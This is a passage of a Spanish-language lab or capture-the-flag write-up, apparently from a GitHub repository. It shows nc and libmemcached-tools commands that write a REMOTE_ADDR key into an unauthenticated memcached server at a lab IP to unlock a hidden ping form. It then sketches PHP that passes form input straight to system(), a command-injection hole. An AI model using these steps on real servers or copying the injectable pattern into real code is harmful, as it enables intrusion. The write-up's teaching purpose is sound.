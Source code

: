 ```bash
set key flags exptime bytes
value 
```

**Uso**

```bash
set REMOTE_ADDR 0 2592000 4
test
```

*Referencia: https://www.tutorialspoint.com/memcached/memcached_set_data.htm*

Al tener problemas de interacción directa para configurar los valores se encontraron otras alternativas funcionales.

##### Método 1

**Comando**

`echo -e 'set REMOTE_ADDR 0 2592000 4\r\ntest\r' | nc -nv -w 1 10.0.100.142 11211`

![exploit_1](./images/exploit_1.png)

1. Ejecución.
2. Validación de existencia (cuando antes no se desplegaba el item 1).
3. Obtención de valor de valor.

##### Método 2

El paquete `libmemcached-tools` cuenta con utilidades para interactuar con conexiones de `memcached`. Haciendo uso de `memccp` se puede copiar un valor pasando como parámetro el archivo con el valor que se piensa ocupar y haciendo uso de `memcat` para la visualización de los valores de los items.

```bash
sudo apt install libmemcached-tools
echo -n "test2" > REMOTE_ADDR
memccp --servers=10.0.100.142 REMOTE_ADDR
memccat --servers=10.0.100.142 REMOTE_ADDR
```

![exploit_2](./images/exploit_2.png)

*Referencia: https://www.hackingarticles.in/penetration-testing-on-memcached-server/*

#### Ejecución

Configurando la variable que concuerda con ambos servicios y añadiendo la asignada por la vpn el output de la página resulta diferente.

![exploit_3](./images/exploit_3.png)

A partir de este punto se puede observar que se habilita un formulario para realizar un ping a un host, lo que a nivel de código se puede reducir en algo como:

```php
$ip = "valor proporcionado por formulario"
system('ping ' . $ip);
```
